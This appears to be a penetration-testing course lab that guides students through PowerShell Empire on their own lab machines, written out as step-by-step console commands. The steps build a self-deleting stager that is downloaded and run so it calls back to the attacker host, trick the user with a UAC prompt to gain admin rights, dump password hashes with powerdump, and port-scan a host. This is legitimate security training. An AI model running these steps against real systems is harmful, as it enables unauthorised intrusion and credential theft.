


Lab 3.5: Empire
Objectives
- To use PowerShell Empire to create a listener on your Slingshot Linux image and agents on your Windows machine, both a low-privileged agent and a high-privileged one
- To review the OpSec Safe features of Empire
- To use Empire’s modules to plunder a target machine for useful information
- To use Empire’s
privesc/powerup/allchecksto look for local privilege escalation vulnerabilities - To use Empire to trick a user into bypassing User Account Control (UAC) to gain elevated privileges
- To dump hashes from a target using Empire’s
powerdump*module (The * indicates that we need an elevated privilege process, also known as a high-integrity process, to run this module.) - To conduct a port scan from an Empire agent
Lab Setup
Ensure that you can ping from the Slingshot Linux image to your Windows machine, and vice versa, for this lab.
$ ping YOUR_WINDOWS_IP_ADDRESS
C:\> ping YOUR_LINUX_IP_ADDRESS
Lab – Step-by-Step Instructions
Step 1: Starting Empire
Start by changing into the Empire setup directory on the Slingshot virtual machine:
$ cd /opt/empire/setup
Then run the script called reset.sh, which will generate unique public and private keys and an associated self-signed certificate to encrypt Empire communication. Only your instance of Empire will have these unique keys and certificate, making the communication more OpSec safe. The script will also clear the database of old data. It is important to never cross-contaminate data from penetration tests.
sec560@slingshot:/opt/empire/setup$ sudo ./reset.sh
The above command will automatically start Empire for us. When prompted for the "negotiation password", simply press enter to randomly generate the password.
To run Empire without a reset, simply run
sudo ./empirefrom the/opt/empiredirectory:
sec560@slingshot:/opt/empire/$ sudo ./empire
Note that upon launch, Empire tells you the number of modules it has available, as well as the number of active listeners and agents associated with it.
We’ll start by looking at a list of commands available in the Empire framework:
(Empire) > ?
Here you can see commands like agents (which shows details about currently managed agents), listeners (which lets you configure and control a listener), and usemodule (which lets you run a module via an agent on a compromised machine).
(Empire) > ? Commands ======== agents Jump to the Agents menu. creds Add/display credentials to/from the database. exit Exit Empire help Displays the help menu. interact Interact with a particular agent. list Lists active agents or listeners. listeners Interact with active listeners. load Loads Empire modules from a non-standard folder. plugin Load a plugin file to extend Empire. plugins List all available and active plugins. preobfuscate Preobfuscate PowerShell module_source files reload Reload one (or all) Empire modules. report Produce report CSV and log files: sessions.csv, credentials.csv, master.log reset Reset a global option (e.g. IP whitelists). resource Read and execute a list of Empire commands from a file. searchmodule Search Empire module names/descriptions. set Set a global option (e.g. IP whitelists). show Show a global option (e.g. IP whitelists). usemodule Use an Empire module. usestager Use an Empire stager.
We can search for modules using the searchmodule command. Let’s do that, looking for privesc, Empire’s shorthand notation for local privilege escalation exploits:
(Empire) > searchmodule privesc
You can see that Empire has numerous features for local privilege escalation attacks, on different operating systems, including Windows and macOS. We’ll experiment with Windows privilege escalation attack later in this lab.
Step 2: Configure a listener
First, we need to configure a listener and deploy an agent.
Let’s start by getting a list of our listeners:
(Empire) > listeners
Given that we haven’t configured a listener yet, there should be none currently active. But notice that your prompt has changed into the listeners context, allowing us to configure and start a listener that will wait for callbacks from Empire agents.
Let’s review the commands we have in our listener context.
(Empire: listeners) > ?
To start a listener, we use the uselistener command, followed by the type of listener we want to use. To get a list of types of listeners, type in the uselistener command, followed by a Space, and then hit Tab-Tab to get the list of available types.
(Empire: listeners) > uselistener <Tab><Tab> dbx http http_com http_foreign http_hop http_mapi meterpreter onedrive redirector
Type a
Spaceafter the command and hitTabtwice.
For this lab, we’ll use the http listener type, which supports both HTTP and HTTPS. And even if we use HTTP itself, the communication is still encrypted using the unique crypto keys generated by Empire. Let’s configure an HTTP listener, changing into its context and getting info about it.
(Empire: listeners) > uselistener http (Empire: listeners/http) > info
Note that we have options here:
- KillDate - after which time the listener will stop listening
- StagingKey - A pseudo-random StagingKey for encrypting communications between agent and listener
- WorkingHours - to limit the time when agents will actively call back to the listener
- DefaultDelay - agents are asynchronous and the DefaultDelay specifies how often the agent will check in
You can also see that the DefaultDelay is 5 seconds, which means that agents will send a request for more commands back to a listener every five seconds.
Finally, note that the Host is set to default to your Linux IP address and that the listener will use TCP port 80.
Let’s lower the time between callbacks from our agent, going from the default of five seconds down to one second, as it’ll make our agents feel more responsive for this lab. Also, our host is already running a web server, so let' us port 8080 for this lab.
(Empire: listeners/http) > set DefaultDelay 1 (Empire: listeners/http) > set Port 8080 (Empire: listeners/http) > set Host http://YOUR_LINUX_IP_ADDRESS:8080
Note: Don't type
YOUR_LINUX_IP_ADDRESS; use the IP address of your Linux system instead (e.g., 10.10.75.123).
Then, with our listener configured, let’s look at the commands we have available to launch it:
(Empire: listeners/http) > ?
The output should look like the following:
We will use the execute command to start our listener:
(Empire: listeners) > execute
You will see a warning about not using the development server in a production environment. This is a production version of Empire.
Now we can check out our listener by running the listeners command:
(Empire: listeners) > listeners
Note that the listener has the default name of http and is listening on our Linux IP address on TCP port 8080.
Next, let’s get back to our main Empire screen by running the back command:
(Empire: listeners) > back

Step 3: Deploy an agent
Now we need to create and deploy an agent, which we accomplish with the usestager command. To see the different kinds of stagers we have available to load an agent on the victim machine, do the following:
(Empire) > usestager
Type a
Spaceafter the command and hitTabtwice.
For this lab, let’s create a stager that runs an agent via PowerShell out of a Windows .bat file and then deletes that .bat file, one of the most useful and reliable agent types supported by Empire:
(Empire) > usestager windows/launcher_bat
Let’s look at the default configuration of the stager that will load the agent:
(Empire: stager/launcher_bat) > info
Note that the agent has the ability to authenticate to a proxy via the ProxyCreds variable.
For this lab, we’ll keep the very reasonable and useful defaults for the stager.
We need to tell the stager which listener it will call back to (which is our only listener currently running):
(Empire: stager/launcher_bat) > set Listener http
By default, Empire will put our .bat file into /tmp/launcher.bat, which is a reasonable place for it.
Now we’ll generate our stager file:
(Empire: stager/launcher_bat) > generate
Next, at a separate Linux terminal prompt, let’s move into /tmp and serve up our stager file via the http.server Python module, listening on the default TCP port of 8000.
$ cd /tmp $ python -m http.server
Step 4: Deploying the stager
To get our stager deployed on Windows, let’s use PowerShell as a command line browser to download a file.
Click the PowerShell icon on the desktop (not the elevated link).
First, launch a non-elevated PowerShell (by going to the Windows menu and typing PowerShell and then hitting Return).
Now, from PowerShell, change to your Desktop directory:
PS C:\Users\sec560> cd Desktop
Then run the wget cmdlet to download the agent stager file:
PS C:\> wget http://YOUR_LINUX_IP_ADDRESS:8000/launcher.bat -OutFile launcher.bat
To ensure your stager file arrived correctly, run the ls command to check its size:
PS C:\> ls launcher.bat
The file should be a non-zero length in bytes (typically between 4,000 and 5,000 bytes).
PS C:\> notepad launcher.bat
Finally, you should see launcher.bat on the Desktop of your Windows machine.
Next, double-click on launcher.bat on your Desktop. This will run the stager to load the agent on your Windows machine. After the agent is loaded, launcher.bat should disappear, as it is a self-deleting malicious file.
Next, on your Linux machine, in the Empire terminal, you should see an indication that your listener has received communication from your agent, with a message of "Initial agent" followed by a pseudorandom agent name.
Hit Enter when you get that "Initial agent" message to get your prompt back.
Step 5: Active agent
Now let’s look at any active agents we have:
(Empire) > agents
You should see your one agent listed there. Let’s get a list of agent commands, noting that one of the commands is "interact":
(Empire: agents) > ?
(Empire: agents) > interact AgentName
Use Tab-autocomplete to help type the random looking agent name.
The pseudorandom name isn’t very handy, so let’s rename this session. Let's call this first agent Agent1.
(Empire: [AgentName]) > rename Agent1
Now let’s look at our command list again:
(Empire: Agent1) > ?
Here we can see commands such as download, killdate, shell, searchmodule, and sysinfo. Also, to see the settings associated with our current agent, we can run the info command. Let’s do that:
(Empire: Agent1) > info
Here you can see vital information about the agent, including its process_name, its last check-in time, and more. To see that our agent is active and communicating back with our listener every second, let’s run the info command twice and note the time difference based on the lastseen_time value:
(Empire: Agent1) > info
Note the
lastseen_timeand how it has changed between each time you ran info on this agent.
If you don’t see the lastseen_time changing, your agent has probably died. If that happens, you can download it again and run it. You'll need to give the new agent a unique name, such as 1Agent21.
At the Empire prompt, we can also review our listeners using the list listeners command:
(Empire: Agent1) > list listeners
You should see your listener on TCP port 8080.
Also, we can see the agents by running the list agents command:
(Empire: Agent1) > list agents
You should see your single agent communicating back from your Windows machine.
Step 6: Modules
Now that we’ve got an agent deployed and communicating back with our listener, let’s look at the modules available to us for executing on the agent:
(Empire: [SessionName]) > usemodule
Hit a
SpaceafterusemoduleandTabtwice.

You should now see the full collection of over 100 different modules. Note that they are in different categories, including:
code_execution: These modules let you run code, including Metasploit payloads, on the target box.
collection: These modules let you pillage information from the target machine.
credentials: These modules let you plunder usernames, hashes, and passwords from the target.
exploitation: These modules let you exploit additional targets.
lateral_movement: These modules let you pivot to other target machines.
management: These modules are associated with system administration functions on the target.
persistence: These modules will make your agent survive across user logoff or reboot.
privesc: These modules provide privilege escalation exploits.
recon: These are the reconnaissance modules.
situational_awareness: These modules pull information from the target environment, including scanners and related tools.
trollsploit: These modules let you troll the user sitting at the victim machine’s console, including playing audio and popping up dialog boxes.
Let’s experiment with some of the most useful of these modules.
Let’s run a module called winenum from the category of situational_awareness. We’ll start by selecting it via the usemodule command:
(Empire: Agent1) > usemodule situational_awareness/host/winenum
To get detailed information about the module, we can now run the info command:
(Empire: powershell/situational_awareness/host/winenum) > info
Note that this module plunders useful information from the target machine, including information about software and files on the box.
We will now run the winenum module:
(Empire: powershell/situational_awareness/host/winenum) > run
Note that when we run a module, Empire creates a job on the target machine and runs the job in the background. If you hit Enter, your prompt will come back. The job is given a title of a pseudorandom string. Empire will place output from the job on the screen sporadically, taking up to 30 seconds or so to finish, posting it in spurts.
Let the job run for about 30 seconds, and look through its output, which includes a list of files recently opened on the target, the services running on the box, the firewall ruleset, and more.
Step 7: Looking for privilege escalation
Next, let’s look to see if there are any privilege escalation opportunities on the target. We’ll start by backing out of the context of winenum, going back to our agent session:
(Empire: situational_awareness/host/winenum) > back
The PowerUp modules have numerous methods for privilege escalation through PowerShell. Let’s search for those modules:
(Empire: Agent1) > searchmodule powerup
We can see that PowerUp has a feature that’ll run all checks for privilege escalation in powershell/privesc/powerup/allchecks. Let’s select that one and run it:
(Empire: Agent1) > usemodule privesc/powerup/allchecks (Empire: powershell/privesc/powerup/allchecks) > run
In your output, you should see the message: "User is in a local group that grants administrative privileges! Run a BypassUAC attack to elevate privileges to admin."
We’ll perform an attack to bypass User Account Control (UAC) in a bit … but let’s first see that we are limited without those full admin privileges in our agent. To do so, let’s attempt to dump hashes from the target from our non-elevated agent. We’ll use the powerdump* module, which is in the credentials category and was originally included in the Posh-SecMod tool:
(Empire: powershell/privesc/powerup/allchecks) > usemodule powershell/credentials/powerdump*
Note that the name of this module ends with *, indicating that it requires an elevated privilege process to use it. Let’s review the details describing this module:
(Empire: powershell/credentials/powerdump) > info
Let’s try to run it:
(Empire: powershell/credentials/powerdump) > run
Note that it will likely fail because our agent isn’t running with full elevated privileges. You should see a message saying, "Error: module needs to run in an elevated context".
Step 8: UAC bypass
Next, we are going to attempt to bypass UAC to get those elevated privileges needed to dump hashes.
First, move back from the context of powerdump*. That should put you back into the context of privesc/powerup/allchecks:
(Empire: powershell/credentials/powerdump) > back
Let’s move back again to the context of our agent session:
(Empire: privesc/powerup/allchecks) > back
Now we’ll run an attack module called privesc/ask that simply pops up a UAC prompt, asking a user logged in to Windows for permission to execute a program. While that might alert a diligent user, most users will simply click Yes. Although there are other exploits to bypass UAC, Microsoft patches them regularly. But a simple Yes click by a user works very well, even on a fully patched Windows box. To use the privesc/ask module, please type:
(Empire: [SessionName]) > usemodule privesc/ask (Empire: [SessionName]) > info
We now need to tell Empire that we want this module applied to any agents connected to our Listener (which is Listener http):
(Empire: powershell/privesc/ask) > list listeners (Empire: powershell/privesc/ask) > set Listener http
Now we are ready to run the module, so please type:
(Empire: privesc/ask) > run
Note that we are now prompted with a message saying, Module is not opsec safe, run? This is a reminder from Empire that what we are about to do will generate logs or otherwise may inform an admin or user. The privesc/ask module will pop up a dialog box on your Windows machine.
We need these privileges to get the hashes, so please type y and hit Enter.
Oftentimes Windows will pop up a UAC prompt that says it was placed on the screen by Windows PowerShell, with a verified publisher of Microsoft Windows. Of course, it’s the Empire Agent that makes this appear, leveraging PowerShell to make it look more like a legitimate action on the target machine.
In our case, your Windows system does not prompt. Yeah!
(Empire: Agent1) > agents
Note the * next to your new agent’s username. That star means that it is an elevated session, with full admin privileges. The Empire documentation sometimes refers to these agents as "high-integrity" agents, and they are wonderful because they allow us to fully plunder the system, including getting the hashes from the box.
Let’s rename our new elevated agent session. We recommend giving it the name of the host followed by the word HIGH to indicate elevated privileges.
(Empire: agents) > rename [NewSessionPseudoRandomName] AgentHIGH
Now let’s interact with our new elevated session:
(Empire: agents) > interact AgentHIGH
And now we can try to run `powerdump*`` again to get the hashes:
(Empire: AgentHIGH) > usemodule credentials/powerdump* (Empire: powershell/credentials/powerdump) > run
Note that it works now because we bypassed UAC to gain a high-integrity (elevated privileges) agent session. And we’ve got the hashes from the target!
Now let’s move back to the context of our agent:
(Empire: powershell/credentials/powerdump) > back
To run shell commands from our agent, we execute shell followed by the command we want to run:
(Empire: [SessionNameHIGH]) > shell ipconfig
You should see the output of the ipconfig command on your display.
(Empire: [SessionNameHIGH]) > shell whoami
If you have time, you can experiment with other PowerShell commands, such as ps, pwd, and dir. Additionally, use some of the PowerShell tricks you already learned in this course.
Step 9: Port scan
Next, let’s conduct a port scan from our Empire agent, having it scan the 10.10.10.10 machine. We’ll start by searching for the portscan module:
(Empire: AgentHIGH) > searchmodule portscan
Let’s select the module:
(Empire: AgentHIGH) > usemodule situational_awareness/network/portscan
Now review the information associated with this module, always a good practice before running a module for the first time:
(Empire: situational_awareness/network/portscan) > info
This module requires a target Hosts variable to be set.
Please set the Hosts variable to 10.10.10.10:
(Empire: situational_awareness/network/portscan) > set Hosts 10.10.10.10
Now let’s run the port scan:
(Empire: situational_awareness/network/portscan) > run
You should see that TCP ports 80, 8080, and 22 are listening on your Linux machine. You may also see TCP port 8000 listening if you didn’t stop the http.server earlier in this lab.
Step 10: Wrap up
To conclude the lab, let’s shut down our agents. We’ll first go back to the main Empire screen:
(Empire: situational_awareness/network/portscan) > main
Then we’ll move to the agents context:
(Empire) > agents
We are now going to kill our agents. We can kill them one at a time with kill [AgentName] but we can use the all modified to kill all of them.
(Empire: agents) > kill all
Now let’s kill our listener:
(Empire: agents) > listeners (Empire: listeners) > kill http
And finally, let’s exit the Empire framework:
(Empire: listeners) > exit
You’ll be prompted to verify that you are quitting. Please hit: Y
If you have extra time, feel free to explore other modules associated with Empire.
Conclusion
In this lab, we’ve seen how penetration testers can use Empire to configure and control listeners and agents. We’ve also run several different modules on a target via an agent, including PowerUp, to find potential local privilege escalation vulnerabilities. We’ve bypassed UAC by prompting a user to get a high-privileged agent running on the target. We’ve dumped hashes using Empire’s powerdump* module, and we’ve also conducted a port scan from an agent on the compromised target.
Each of these techniques is extremely useful for penetration testers during the post-exploitation phase of a penetration test project or Red Team engagement.